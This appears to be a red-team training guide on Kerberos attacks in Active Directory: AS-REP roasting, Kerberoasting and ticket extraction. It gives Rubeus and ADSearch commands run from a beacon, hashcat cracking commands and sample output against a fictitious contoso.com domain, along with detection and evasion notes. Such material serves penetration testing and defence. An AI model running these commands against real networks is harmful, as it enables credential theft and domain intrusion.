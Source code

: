 
## AS-REP Roasting
AS-REP roasting is a technique [T1558.004](https://attack.mitre.org/techniques/T1558/004/) for obtaining the plaintext password of accounts that have Kerberos preauthentication disabled.  In these cases, an adversary can send AS-REQs without having to provide a valid encrypted timestamp and the KDC will respond with an AS-REP containing the TGT for the target account.  AS-REPs contain a logon session key which is encrypted with the principal's hash.  The adversary can extract this encrypted blob and to brute-force it offline to recover the accounts plaintext password.

Rubeus' `asreproast` command will enumerate every account that has preauthentication disabled, sends an AS-REQ for them, then carves out the encrypted part.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap

[*] Action: AS-REP roasting
[*] Target Domain          : contoso.com
[*] Searching path 'LDAP://lon-dc-1.contoso.com/DC=contoso,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'

[*] SamAccountName         : oracle_svc
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=contoso,DC=com
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Building AS-REQ (w/o preauth) for: 'contoso.com\oracle_svc'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

$krb5asrep$23$oracle_svc@contoso.com:92D6F[...snip...]19124
```

>By default, Rubeus outputs hashes for John the Ripper.  Use `/format:hashcat` to output them for Hashcat instead.

These RC4 AS-REP's can be cracked using hashcat's 18200 mode.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 18200 .\asrep.hash .\example.dict -r .\rules\dive.rule
$krb5asrep$23$oracle_svc@contoso.com:92d6f[...snip...]19124:Passw0rd!
```

#### *OPSEC Considerations*

Most detection strategies are geared towards looking at unusual or anomalous ticket requests.  Each AS-REP generates a 4768 event, so a single user sending multiple AS-REQs in a short timeframe should be investigated.  Rubeus also requests RC4-encrypted tickets by default because they are easier to crack.  However, since modern versions of Windows uses AES128 and 256, the use of RC4 tickets can stand out.

## Kerberoasting

Kerberoasting is a technique [[T1558.003](https://attack.mitre.org/techniques/T1558/003/)] for obtaining the plaintext password of the service account associated with an SPN.  An adversary can send TGS-REQs for one or more SPNs and get TGS-REPs in return.  These contain valid service tickets that are partially encrypted using the service's secret.  These encrypted parts can be carved out and brute-forced office to recover the service accounts plaintext password.

This attack isn't viable against services that run in the context of a computer account because these passwords are automatically set (128-characters long), and rotated by Active Directory every 30 days.  It relies on domain accounts that have been setup by humans, have weak passwords, and maybe even configured to never expire.

Rubeus' `kerberoast` command will enumerate and roast every non-default service.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple

[*] Total kerberoastable users : 1

$krb5tgs$23$*mssql_svc$contoso.com$MSSQLSvc/lon-sql-1.contoso.com:1433@contoso.com*$95505[...snip...]9A715
```

These hashes can be cracked using hashcat's 13100 hash mode.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
$krb5tgs$23$*mssql_svc$contoso.com$MSSQLSvc/lon-sql-1.contoso.com:1433@contoso.com*$95505[...snip...]9a715:Passw0rd!
```

#### *OPSEC Considerations*

Each TGS-REP generates a 4769 event, so a single user requesting multiple tickets in a short timeframe should be investigated.  As with AS-REP Roasting, Rubeus requests service tickets using RC4 encryption by default.

> Another effective strategy is to create one or more dummy SPNs that are not backed by a legitimate service, in which case, a TGS-REQ/REP should never be generated for them.  Since most tools automatically enumerate and roast every account in a domain with an SPN set, a careless adversary can trigger this high-fidelity alert.

A safer approach is to use an enumeration tool to triage potential targets first, then roast them more selectively.

```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes cn,samaccountname,serviceprincipalname
            
[*] LDAP://DC=contoso,DC=com
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
	[+] cn                   : MSSQL Service
	[+] samaccountname       : mssql_svc
	[+] serviceprincipalname : MSSQLSvc/lon-sql-1.contoso.com:1433

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/lon-sql-1.contoso.com:1433 /simple /nowrap
```

## Extracting Tickets

If an adversary gains elevated access to a computer, they can extract Kerberos tickets that are currently cached in memory.  Rubeus' `triage` command will enumerate every logon session present and their associated tickets.  If multiple logon session exist (i.e. multiple users are logged onto the same computer), TGTs and/or service tickets for those users can be extracted and re-used by the adversary.